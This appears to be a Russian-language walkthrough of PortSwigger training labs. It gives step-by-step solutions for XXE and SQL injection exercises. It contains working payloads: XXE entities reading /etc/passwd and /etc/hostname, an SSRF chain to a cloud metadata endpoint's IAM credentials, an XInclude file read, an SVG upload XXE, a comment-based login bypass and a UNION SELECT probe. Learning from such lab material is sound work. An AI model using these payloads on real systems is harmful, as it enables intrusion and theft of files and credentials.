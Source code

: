 # XXE

1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5)после объявления xml добавить

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> 
```

6)заменить product id число на `&res;` 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

____

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

5)после объявления xml добавить:

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>
```

6)заменить product id на `&res;` отправить запрос, 

7)в ответе придет `latest` - добавить его к адресу и получим 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 
```
и так далее, 

n+1)в итоге получаем 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

5)в *product id* вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

6)в ответ придёт /etc/passwd


____


4.https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

+1)зайти на сайт

+2)выбрать статью 

+3)нажать отправить комментарий(заполнить все поля предварительно) 

+4)перехватить запрос через Burp

+5)в поле для картинки вставить: 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>
```

6)svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)

____

# SQL

1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

1)в графе login ввести administrator'--

____

2. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

2)заменяем NULL по очереди на `HmnfQ2` - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

3)второй столбец оказался верным - выводится результат